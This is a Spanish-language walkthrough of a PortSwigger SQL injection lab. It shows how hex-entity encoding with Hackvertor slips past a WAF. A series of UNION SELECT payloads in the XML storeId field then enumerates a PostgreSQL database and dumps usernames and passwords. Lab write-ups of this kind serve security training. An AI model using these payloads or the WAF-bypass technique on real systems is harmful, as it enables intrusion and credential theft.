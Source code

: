 ```yaml
---
title: SQLI Lab 18
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection with filter bypass via XML encoding
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-18/Portswigger.png
---
```


## Skills

- SQL injection with filter bypass via XML encoding

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en su función de `verificación` de `stock`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que se puede usar un `ataque UNION` para obtener `datos` de otras `tablas`. La `base` de `datos` contiene una `tabla` llamada `users`, que almacena los `nombres` de `usuario` y `contraseñas` de los `usuarios registrados`. Para resolver el laboratorio, debemos realizar un `ataque` de `inyección SQL` para `obtener` las `credenciales` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-18/image_1.png)

Si hacemos click en `View details` vemos que hay un botón de `Check stock`

![](/assets/img/SQLI-Lab-18/image_2.png)

Si pinchamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos una estructura en `XML`

![](/assets/img/SQLI-Lab-18/image_3.png)

Si `enviamos` la `petición` recibiremos en `número` de `unidades` disponibles

![](/assets/img/SQLI-Lab-18/image_4.png)

Con el simple hecho de poner una `'` en alguna de los campos ya nos lo `detecta` como `ataque`, esto es debido a un `WAF`

![](/assets/img/SQLI-Lab-18/image_5.png)

Para `bypassear` el `WAF` podemos usar `herramientas` como `Hackvertor` para `ofuscar` nuestro `payload` y `evitar` que sea `detectado`. Para encodear nuestro payload debemos hacer c`lick derecho > Extensions > Hackvertor > Encode > hex_entities`

![](/assets/img/SQLI-Lab-18/image_6.png)

Vemos que si ponemos una `'` nos devuelve `0 unidades`

![](/assets/img/SQLI-Lab-18/image_7.png)

He probado ambos campos pero solamente es `inyectable` el campo `storeId`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select null<@/hex_entities>
    </storeId>
</stockCheck>
```

Si `enviamos` la `petición` vemos `null` en la `respuesta`

![](/assets/img/SQLI-Lab-18/image_8.png)

`Listamos` la `version` y la `base` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select version()<@/hex_entities>
    </storeId>
</stockCheck>
```

Vemos que estamos ante un `PostgreSQL`

![](/assets/img/SQLI-Lab-18/image_9.png)

`Listamos` los `nombres` de las `bases` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select datname from pg_database<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_10.png)

`Listamos` la `base de datos actual`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select current_database()<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_11.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(schema_name,', ') from information_schema.schemata<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_12.png)

Listamos `tablas` de la `base de datos public`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(table_name,', ') from information_schema.tables where table_schema='public'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_13.png)

Listamos `columnas` de la `tabla users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(column_name,', ') from information_schema.columns where table_name='users'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_14.png)

`Listamos` los `usuarios` y `contraseñas` de la tabla `users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select username || ' : ' || password from users<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_15.png)

``Accedemos`` al `panel administrativo`

![](/assets/img/SQLI-Lab-18/image_16.png)
